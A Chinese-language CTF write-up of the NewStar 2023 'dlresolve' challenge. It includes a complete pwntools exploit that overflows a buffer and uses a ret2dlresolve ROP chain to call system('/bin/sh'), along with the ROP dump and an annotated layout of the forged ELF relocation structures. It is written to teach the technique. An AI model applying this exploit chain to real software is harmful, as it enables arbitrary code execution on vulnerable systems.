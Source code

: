 ```yaml
---
title: newstar2023 week3 - dlresolve
date: 2023/10/10 12:00:00
updated: 2024/8/26 17:18:00
tags:
    - ret2dlresolve
thumbnail: /assets/newstar2023/relro.png
excerpt: 使用pwntools实现ret2dlresolve漏洞利用，简化了官方复杂的解题方式。
---
```


## 文件分析

NX on, PIE off, Canary off, RELRO partial  
ghidra分析为64位程序

## 解题思路

题目提示了使用ret2dlresolve，我们可以直接使用pwntools的工具生成

官方题解用了比较复杂的方式，而且与脚本实现也有很多不同，所以我就想弄清楚 pwntools
与官方题解有什么区别，因此下文只解析pwntools的实现，文末我也会把官方题解放上

## EXPLOIT

```python
# copy from official sample
from pwn import *
def payload():
    global sh
    context.arch = 'amd64'
    sh = gdb.debug('dlresolve')
    elf = ELF('dlresolve')

    bssHigh = 0x404500
    readAddr = 0x401192
    leaveRetAddr = 0x4011a9
    retAddr = 0x4011aa

    rop = ROP(elf)
    dlresolve = Ret2dlresolvePayload(elf, symbol='system', args=["/bin/sh"])
    rop.read(0, dlresolve.data_addr)
    rop.ret2dlresolve(dlresolve)
    raw_rop = rop.chain()

    sh.sendline(b'0'*120 + p64(retAddr) + raw_rop)
    sh.sendline(dlresolve.payload)
    sh.interactive()

payload()
```

## Ret2Dlresolve对象详解

相比起官方脚本，用工具生成不但简单，而且payload也短，以下是我的研究结果

使用`rop.dump()`，我们得以窥见rop攻击的具体含义：
```
0x0000:         0x40116b pop rsi; ret
0x0008:         0x404e00 [arg1] rsi = 4214272
0x0010:         0x40115e pop rdi; ret
0x0018:              0x0 [arg0] rdi = 0
0x0020:         0x401064 read
0x0028:         0x40115e pop rdi; ret
0x0030:         0x404e38 [arg0] rdi = 4214328
0x0038:         0x401020 [plt_init] system
0x0040:            0x30b [dlresolve index]
```
> ps: 复盘的时候忘记加`context.arch = 'amd64'`了，dump结果都变了，一定要注意！

到read都不必我说，接下来pop的rdi，是指向伪造出来的"/bin/sh"字符串的指针，
这样就能在解析完成后指定参数打开shell；然后0x401020是plt_init的地址，
这个“函数”做两件事：将link_map压到栈上，然后执行`dl_runtime_resolve`函数进行加载  
栈上还有一个index，是下图中的reloc_arg，可以由此指向伪造的ElfRel

那么这里为什么reloc_arg是0x30b呢？查了以下pwntools的源码，计算可推出如下关系：
`reloc_arg * ElfRel.size + __DT_SYMTAB -> &fakeRel`  
因为64位下ElfRel的大小是24字节，计算中可以将24带入；__DT_SYMTAB是指`__DT_SYMTAB`这个标签的地址；
这里使用'->'是因为这两边并不一定相等，而是存在对齐调整的  
至此，`rop`部分已经分析完毕

接下来是`dlresolve.payload`部分：这一部分没有`dump`函数，只有bytes，
不过动调以后也逐渐搞明白了其结构，接下来用伪c代码，按结构展开各个字节对应的内容  
（前面的标号是字段在payload中的起始地址）
```c
0:  "system\0a" // 'a' for padding
Elf64_Sym fakeSym = {
8:  st_name = 0x49a8, // __DT_STRTAB + st_name == (char *)"system"
12: st_info = 0,
13: st_other = 0,
14: st_shndx = 0,
16: st_value = 0,
24: st_size = 0
} // size: 24
Elf64_Rel fakeRel = {
32: r_offset = 0x404e00,    // 解析完的地址存放的地址（伪造got）
40: r_info = 0x31800000007, // __DT_SYMTAB + 0x318 * 24 == &fakeSym
48: r_append = 0
} // size: 24
56: "/bin/sh\0" // argument
```
共计64字节，无关的条目全部填0，需要伪造的条目已经在后面写上了注释，具体dlresolve的执行流程见下图：  
![图解](/assets/newstar2023/relro.png)  
可以看到，所生成的结构在函数解析中一次次被使用，没有任何多余

如果到这里还觉得迷迷糊糊的话，建议动调步进观察`dl_fixup`函数的运行情况；
此外我在研究的时候也离不开[这篇知乎文章](https://zhuanlan.zhihu.com/p/134105591)的深入讲解，
搭配两者一起使用，是能理解其中奥秘的根本

另外，作者还提到了其他文章所没有介绍的Full Relro的利用方法，也可以学习一下

## 参考

1. [图片来源文章](https://blog.csdn.net/IO1n0/article/details/103323738 "透过深入分析延迟绑定了解 ret_2_dl_resolve:1Oin0的博客")
2. [深入讲解动态加载技术的知乎文章](https://zhuanlan.zhihu.com/p/134105591 "深入窥探动态链接:1Oin0的看雪论坛文章")
3. [官方题解](https://shimo.im/docs/QPMRxzGktzsZnzhz/read "详见dlresolve一节")
4. [dlresolve官方示例](https://docs.pwntools.com/en/stable/rop/ret2dlresolve.html#module-pwnlib.rop.ret2dlresolve "pwnlib.rop.ret2dlresolve")
5. [dlresolve源码](https://github.com/Gallopsled/pwntools/blob/2e09b7dd91/pwnlib/rop/ret2dlresolve.py "pwntools/pwnlib/rop/ret2dlresolve.py @ GitHub")

Done.
